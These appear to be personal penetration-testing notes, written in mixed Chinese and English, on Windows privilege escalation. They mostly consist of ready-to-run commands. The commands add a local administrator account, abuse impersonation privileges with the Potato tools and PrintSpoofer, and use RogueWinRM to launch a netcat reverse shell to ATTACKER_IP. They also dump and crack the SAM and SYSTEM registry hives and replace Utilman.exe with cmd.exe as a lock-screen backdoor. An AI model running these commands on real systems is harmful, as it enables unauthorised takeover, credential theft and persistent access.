 ### LOLBAS
```powershell
whoami
whoami /groups 
whoami /all

net user <user_name>
Get-LocalUser <user_name>

net localgroup Administrators
Get-LocalGroupMember <group_name>
```

### [PsLoggedOn](https://learn.microsoft.com/en-us/sysinternals/downloads/psloggedon) 
查看用户SID, 可远程查看已登录用户(>=win8)
```powershell
.\PsLoggedon.exe \\files04
```
# Add User
```powershell
net user afsimmons enterpasswordhere /add
net localgroup Administrators afsimmons /add
#Remote Desktop Users, Remote Management Users
```
# Exploit

## Abuse Windows Privileges
[Priv2Admin](https://github.com/gtworek/Priv2Admin) Github项目中找到一个全面的可利用特权列表。
### SeImpersonate  / SeAssignPrimaryToken
[Potatoes](https://jlajara.gitlab.io/Potatoes_Windows_Privesc)：一类提权漏洞 -->[download](https://raw.githubusercontent.com/k4sth4/Rogue-Potato/main/RoguePotato.exe)
[GenericPotato](https://github.com/micahvandeusen/GenericPotato): GenericPotato 修改后的SweetPotato, 可以通过HTTP进行提权，支持SSRF。而不只是命名管道。
[RoguePotato](https://github.com/k4sth4/Rogue-Potato/blob/main/RoguePotato.exe): Potato类提权的二进制文件，适用于Win10/winServer2019以上版本
[RogueWinRM Exploit](https://github.com/antonioCoco/RogueWinRM)：工具
[Juicy-Potato-x86](https://github.com/ivanitlearning/Juicy-Potato-x86): x86版本的JuicyPotato

If the machine is >= Windows 10 1809 & Windows Server 2019 - Try Rogue Potato
If the machine is < Windows 10 1809 < Windows Server 2019 - Try Juicy Potato
#### SweetPotato
CLSID: https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_Server_2008_R2_Enterprise
Rule All !
```powershell
.\SweetPotato.exe -p <prog> -e [DCOM|WinRM|EfsRpc|PrintSpoofer(default)] -a <args>
#server 2008
.\juicypotato86.exe -c   {69AD4AEE-51BE-439b-A92C-86AE490E8B30} -p .\authby.exe -t * -l 1337
```
#### PrintSpoofer
```powershell
.\PrintSpoofer.exe -i -c powershell.exer
```
#### RoguePotato
Local:
```bash
socat tcp-listen:135,reuseaddr,fork tcp:VICTIM_IP:9999
```
```powershell
.\RoguePotato.exe -r YOUR_IP -e "command" -l 9999
```
#### RogueWinRM (5985 close)
```powershell
RoguewinRM.exe -p C:(windows\system32\cmd.exe
.\RogueWinRM\RogueWinRM.exe -p "C:\tools\nc64.exe" -a "-e cmd.exe ATTACKER_IP 4442"
```
### SeBackup / SeRestore
Windows
```powershell
reg save hklm\system C:\Users\THMBackup\system.hive
reg save hklm\sam C:\Users\THMBackup\sam.hive
#转储其他用户目录
robocopy /B C:\users\enterpriseadmin\desktop C:\users\enterpriseuser\desktop /E
```
Linux
```bash
impacket-secretsdump -sam sam.hive -system system.hive LOCAL
pypykatz registry --sam /tmp/sam /tmp/system
```
### SeTakeOwnership
#### [[User-Privs PrivEsc#SeTakeOwnershipPrivilege|HTB - SeTakeOwnershipPrivilege]]
利用system运行的服务，然后接管服务二进制文件。--> [[Editable Service]]
接管重要文件的权限(如密码文件等) --> [[User-Privs PrivEsc]]
#### Utilman
```powershell
#该利用锁屏提权，需RDP。替换二进制文件锁屏后，点击辅助按钮触发
takeown /f c:\Windows\System32\Utilman.exe
icacls c:\Windows\System32\Utilman.exe /grant {$Current_User}:F
C:\Windows\System32\> copy cmd.exe utilman.exe
```
